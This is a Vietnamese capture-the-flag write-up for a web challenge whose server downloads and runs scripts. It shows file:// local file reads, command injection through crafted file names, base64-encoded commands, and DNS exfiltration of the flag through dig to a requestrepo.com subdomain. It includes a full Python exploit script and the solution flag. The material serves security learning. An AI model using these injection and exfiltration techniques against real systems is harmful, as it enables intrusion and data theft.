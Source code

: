 # A tiny hole 

![description](images/description.png)

Đọc sơ qua source code thì mình có thể dễ dàng đoán được server sẽ thực hiện việc download script từ URL mình nhập vào và thực thi nó. Sau khi test thử một vài đường link thì mình nhận ra không thể kết nối ra bên ngoài. 

Muốn chạy được script thì mình phải bypass qua được đoạn check ở hàm `download_script` trước:

```python
def download_script(script_path, command_log, url):
	try:
		script_link = url
	except:
		return "missing url"
	r = requests.Session()
	r.mount('file://', FileAdapter())
	try:
		result = r.get(script_link)
	except:
		return "Oh no! Lost internet"
	with open(script_path, 'wb') as f:
		f.write(result.content)
		run_script(script_path, command_log)
```

Để ý thấy dòng `r.mount('file://', FileAdapter())`, mình thử nhập url là `file:///etc/passwd` thì bypass được hàm này.

Tiếp đến là hàm `run_script`:

```python
def run_script(script_path, command_log):
	lf = open(command_log, 'wb+')
	command = subprocess.Popen(['bash', script_path], stderr=lf, stdout=lf, universal_newlines=True)
	return "Run successfully"
```

Đoạn code trên sẽ chạy lệnh `bash` với file `script_path` được truyền vào, sau đó cả output lẫn error đều được ghi vào file `command_log`

Nội dung của file `script_path` được lấy từ url mình cung cấp nhưng do không thể connect ra bên ngoài nên việc chèn reverse shell vào đây là không khả thi.

Mình control được 2 param đó là `script_path` và `command_log` từ đó mình có thể lợi dụng chính lệnh `bash` để thực thi lệnh tuỳ ý.

```console
$ echo kemdau > 'date;
$ bash 'date;' 2> command_log
$ cat command_log
date;: line 1: kemdau: command not found
$ bash command_log
Thu Nov  4 02:48:02 PM +07 2021
```

Ở đây mình dùng `2>` để chuyển hướng `stderr` vào file như hàm `run_script` ở trên.

Ý tưởng của mình là tạo 1 file với tên là câu lệnh cần chạy rồi lợi dụng ghi error của lệnh `bash` vào file `command_log` và sau đó `bash command_log` là lệnh sẽ được thực thi.

***ưtf is that???***

![what](images/what.jpg)


Vậy còn lệnh `cat /flag.txt` thì sao? Tên file trong linux thì làm gì đặt được dấu `/`? Có rất nhiều cách để bypass, mình chọn encode sang `base64`.

```console
$ echo "cat /flag.txt" | base64
Y2F0IC9mbGFnLnR4dAo=
$ echo Y2F0IC9mbGFnLnR4dAo= | base64 -d | bash
cat: /flag.txt: No such file or directory
```

Nhưng không có internet thì làm sao mà gửi flag về? Với những chall kiểu như này mình sẽ thử dùng DNS để bypass.

Mình sử dụng lệnh `dig` để query và [requestrepo.com](requestrepo.com) để hứng DNS.

Và đây là payload của mình:

```console
$ dig $(echo Y2F0IC9mbGFnLnR4dAo= | base64 -d | bash).jrl0lymn.requestrepo.com
```

Còn đây là script của mình:

```python
import requests
import random
import string
from base64 import b64encode

URL = 'http://chal17.web.letspentest.org/'

def send_payload(dir, name, url, log):
    payload = {
        'script_dir': dir,
        'script_name': name,
        'script_url': url,
        'command_log_file': log
    }
    r = requests.post(URL + '/runScript', data=payload)
    print(r.text)

def randstr():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=10))

core_payload = b'cat /flag.txt'
core_payload = b64encode(core_payload).decode()

dirname = randstr()

send_payload(dirname, f'\ndig $(echo {core_payload} | base64 -d | bash).jrl0lymn.requestrepo.com;', 'file:///etc/hosts', 'log')
send_payload(dirname, 'bruh', 'file:///src/logs/log.txt', 'log1')
```

Hứng DNS:

![requestrepo](images/requestrepo.png)

Flag: `Flag{CookieWarrior_Please_Think_Out_Of_The_Box}`